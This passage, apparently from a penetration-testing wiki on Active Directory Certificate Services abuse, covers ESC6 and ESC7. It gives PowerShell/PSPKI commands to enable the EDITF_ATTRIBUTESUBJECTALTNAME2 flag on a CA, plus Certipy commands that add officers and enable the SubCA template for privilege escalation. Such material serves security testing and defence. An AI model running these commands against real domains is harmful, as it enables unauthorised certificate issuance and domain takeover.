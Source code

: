 Then, [PSPKI](https://github.com/PKISolutions/PSPKI) (PowerShell) can be used to modify the CA object ([RSAT](https://docs.microsoft.com/fr-fr/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is needed on the machine where PSPKI is run).

```powershell
Certify.exe cas

# Install PSPKI
Install-Module -Name PSPKI
Import-Module PSPKI

# Get the current value of EDITF_ATTRIBUTESUBJECTALTNAME2 and modify it with SetConfigEntry
$configReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "CA.domain.local"
$configReader.SetRootNode($true)
$configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
certutil.exe -config "CA.domain.local\CA" -getreg "policy\EditFlags"
```

If RSAT is not present, it can installed like this:

```batch
DISM.exe /Online /Get-Capabilities
DISM.exe /Online /add-capability /CapabilityName:Rsat.CertificateServices.Tools~~~~0.0.1.0
```
{% endtab %}
{% endtabs %}

#### ESC7 - Abusing `SubCA`

When it is not possible to restart the `CertSvc` service to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute, the `SubCA` built-in template can be used, along with a `ManageCA` right.

The `SubCA` template is vulnerable to the ESC1 attack, but only Domain Admins and Enterprise Admins can enroll in it. If a standard user tries to enroll in it, he will encounter a `CERTSRV_E_TEMPLATE_DENIED` errror and will obtain a request ID with a corresponding private key.

This ID can be used by a user with the `ManageCA` and `ManageCertificates` rights to validate the failed request anyway. The user can then retrieve the issued certificate by specifying the same ID.

{% tabs %}
{% tab title="UNIX-like" %}
If the attacker only has the `ManageCA` permission, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate access rights over the CA object and modify some CA's attributes like the officers list (an officer is a user with the `ManageCertificates` right). The attacker could also enable or disable certificate templates.

```bash
# Add a new officier
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -add-officer 'user'

# List all the templates
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -list-templates

# Enable a certificate template
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -enable-template 'SubCA'
```
